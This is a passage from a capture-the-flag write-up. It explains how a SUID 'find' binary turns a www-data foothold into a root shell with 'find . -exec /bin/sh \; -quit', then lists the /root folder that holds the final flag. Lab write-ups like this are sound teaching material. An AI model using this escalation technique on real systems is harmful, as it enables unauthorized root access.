 So it would mean that... Each *echo* process was run with **root** privileges!

We will combine this with *-quit* flag - find will stop iterating after first command that returned something other than error.

``` bash
find /**/*flag* -exec echo "filename: {}" \; -quit

filename: /home/flag4

```

As you can see, now it only printed one entry.

Cool, so what is the big magic spell? Get ready for it!

Drumrolls please! 🥁
``` bash
find . -exec /bin/sh \; -quit
```
That's it! We use *find* on our current directory, we quit after first command runs with success, and we start new **sh** process!
After running this command we gain access to new shell, with root privileges!

``` bash
# before the exploit

whoami
www-data

# THE exploit

find . -exec /bin/sh \; -quit

# after the explot, we are in a new shell

whoami 
root
```

Now let's look into that precious */root* folder!
``` bash
ls -la /root

total 32
drwx------  4 root root 4096 Feb 28  2019 .
drwxr-xr-x 23 root root 4096 Feb 19  2019 ..
drwx------  2 root root 4096 Feb 19  2019 .aptitude
-rw-------  1 root root   44 Feb 28  2019 .bash_history
-rw-r--r--  1 root root  949 Feb 19  2019 .bashrc
drwxr-xr-x  3 root root 4096 Feb 19  2019 .drush
-rw-r--r--  1 root root  140 Nov 20  2007 .profile
-rw-r--r--  1 root root  173 Feb 19  2019 thefinalflag.txt
```

Oh, what's that? **The final flag dot txt**?
